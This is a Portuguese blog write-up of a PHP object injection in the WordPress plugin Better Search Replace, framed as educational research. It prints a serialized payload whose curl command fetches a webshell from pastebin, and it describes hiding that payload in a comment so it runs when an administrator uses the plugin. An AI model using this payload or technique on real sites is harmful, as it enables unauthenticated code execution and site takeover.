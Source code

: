 ```yaml
---
layout: post
title: PHP Object Injection no Better Search Replace
permalink: /web/php-object-injection-better-search-replace
---
```


**Atenção**: A técnica demonstrada neste artigo tem o propósito de ser um material educativo, a exploração foi feita em um ambiente controlado. Não realize esta exploração sem a autorização do dono do servidor, pois isto poderá resultar em um crime!

![](/imgs/php-object-injection-better-search-replace/plugin_info.png)

O Better Search Replace é um plugin que possui a função de fazer exatamente o que o nome dele sugere, ele busca uma string na sua base de dados do Wordpress e substitui por outra string que você forneceu.

Sinceramente não entendo porque é tão usado, segundo o Wordpress, existe **mais de 1 milhão de instalações ativas**.

![](/imgs/php-object-injection-better-search-replace/search.png)


![](/imgs/php-object-injection-better-search-replace/serialization.png)

Dentre suas funcionalidades, o plugin consegue realizar o processamento de objetos PHP serializados, então resolvi fazer Code Review deste plugin.

![](/imgs/php-object-injection-better-search-replace/func_unserialize.png)

Depois de algum tempo na análise estática, encontrei o [trecho de código](https://plugins.trac.wordpress.org/browser/better-search-replace/trunk/includes/class-bsr-db.php
) responsável por realizar a deserialização. Achei interessante, logo comecei a análise dinâmica.

Infelizmente não encontrei um trecho de código que possibilitasse iniciar a POP Chain utilizando o próprio plugin (que por acaso tornaria a vulnerabilidade bem mais crítica) :disappointed:. Por sorte, o Wordpress permite que um plugin consiga acessar as classes ou funções que foram definidas em outros plugins, ou seja, não existe um "sandbox". Consequentemente, isto abre a possibilidade de iniciar a POP Chain utilizando o código-fonte de outros plugins.

Para facilitar a minha vida, criei o plugin ["WP Object Injection Proof of Concept"](https://github.com/growlnx/WP-Object-Injection-PoC), este plugin possibilita o ataque de **Reutilização de Código**, me poupando tempo com **POP Chains**.

![](/imgs/php-object-injection-better-search-replace/plugin_vuln.png)

Ele se resume a nessa pequena classe com o método mágico ["__wakeup"](https://www.php.net/manual/pt_BR/language.oop5.magic.php#object.wakeup). Caso deseje reproduzir em um cenário mais aproximado da realidade, recomendo que veja o [PHPGGC](https://github.com/ambionics/phpggc), pode te ajudar.

Meu objetivo neste momento é fazer download de uma webshell e conseguir a RCE desautenticado. O payload abaixo fará o download de um arquivo do [pastebin](https://pastebin.com/raw/E3cNN0Zy) usando o [curl](https://curl.haxx.se/). 

{% highlight php %}
O:2:”OI”:2:{s:3:”cmd”;s:48:”curl -o ws.php https://pastebin.com/raw/E3cNN0Zy“;s:3:”fcn”;s:6:”system”;}
{% endhighlight %}

Agora só resta saber onde devemos realizar a injeção... que tal nos comentários?

![](/imgs/php-object-injection-better-search-replace/tabela.png)

O plugin permite que o usuário realize o processamento na tabela de comentários, isso é bem legal, pois podemos injetar o payload nos comentários e esperar a iteração do administrador no plugin **Better Search Replace** para disparar a substituição.

![](/imgs/php-object-injection-better-search-replace/comment_evil.png)

Como pode se observar na imagem acima, o administrador é notificado a respeito do comentário, logo, também será necessário contar a sorte.

![](/imgs/php-object-injection-better-search-replace/request_admin_search.png)

Se o payload for interpretado com sucesso, o download de uma simples webshell será realizado no diretório "wp-admin".

![](/imgs/php-object-injection-better-search-replace/rce.png)

*Voilà*!, foi possível obter uma unauth RCE através de uma deserialização insegura.

## Referências

- [better-search-replace/trunk/includes/class-bsr-db.php](https://plugins.trac.wordpress.org/browser/better-search-replace/trunk/includes/class-bsr-db.php)
- [OWASP - PHP Object Injection](https://owasp.org/www-community/vulnerabilities/PHP_Object_Injection)
- [CWE-502: Deserialization of Untrusted Data](https://cwe.mitre.org/data/definitions/502.html)
- [PHP Magic Methods](https://php.net/manual/en/language.oop5.magic.php)
- [Blackhat - Utilizing Code Reuse/ROP in PHP Application Exploits](https://owasp.org/www-pdf-archive/Utilizing-Code-Reuse-Or-Return-Oriented-Programming-In-PHP-Application-Exploits.pdf)